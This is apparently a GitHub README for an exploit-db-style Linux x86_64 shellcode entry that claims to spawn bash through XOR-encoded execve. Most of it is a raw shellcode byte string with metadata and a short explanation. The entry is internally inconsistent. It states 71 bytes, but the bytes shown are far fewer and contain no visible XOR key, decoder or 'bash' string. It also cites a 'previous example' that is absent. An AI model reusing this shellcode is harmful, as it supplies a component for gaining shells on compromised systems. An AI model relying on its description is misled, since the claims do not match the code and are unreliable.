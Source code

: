 # linux_bash_shellcode
Exploit Title: Linux/x86_64 - bash shellcode with xor encoding<br>
Date: 05/02/2023<br>
Exploit Author: Jeenika Anadani<br>
Contact: https://twitter.com/cyber_jeeni<br>
Category: Shellcode<br>
Architectue: Linux x86_64<br>
Shellcode Length: 71 Bytes<br>
# Explanation:
This code uses XOR encryption to obscure the name of the program being executed, `"bash"`. <br>
The XOR encryption key is `0x08162432`, which is applied to each byte of the string. <br>
The decryption is performed just before calling `execve`, so the program name is passed in its original form.<br>
The rest of the code is the same as the previous example, making a system call to the `execve` function and then calling the `exit` syscall to terminate the process.<br>
# Bytecode - Little Endian
<code>"\x48\x31\xc0\x48\x89\x44\x24\xf8\x48\x8d\x7c\x24\xe0\x31\xc0\xb0\x3b\x0f\x05\x31\xc0\x89\xc3\xb0\x3c\x0f\x05"</code><br>
# References
https://www.exploit-db.com/shellcodes/51258</br>
